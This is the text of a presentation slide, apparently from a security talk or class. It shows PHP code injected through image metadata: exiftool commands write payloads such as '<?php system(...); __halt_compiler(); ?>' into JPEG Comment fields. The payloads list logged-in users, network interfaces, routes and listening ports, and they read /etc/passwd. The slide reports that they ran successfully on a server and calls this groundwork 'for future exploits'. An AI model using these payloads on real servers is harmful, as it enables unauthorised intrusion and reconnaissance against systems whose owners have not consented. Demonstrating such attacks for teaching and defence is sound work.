

# Remote server configuration for future exploits
The following commands executed successfully on the server using this attack
Logged in users
exiftool -Comment="<?php system(w); __halt_compiler(); ?>" ./Demo/CCIS-1.jpg
IP addresses for other interfaces
exiftool -Comment="<?php system(ifconfig); __halt_compiler(); ?>" ./Demo/CCIS-2.jpg
Commands with arguments
Network routes
exiftool -Comment="<?php system('netstat / -nr'); __halt_compiler(); ?>" ./Demo/CCIS-3.jpg
Listening network ports
exiftool -Comment="<?php system(‘netstat / -plnt’); __halt_compiler(); ?>" ./Demo/CCIS-4.jpg
Directory contents
exiftool -Comment="<?php system('ls / -ltr'); __halt_compiler(); ?>" ./Demo/CCIS-5.jpg
Password file...not actual passwords…but useful info about active user accounts
exiftool -Comment="<?php system('cat / /etc/passwd'); __halt_compiler(); ?>" ./Demo/CCIS-6.jpg
23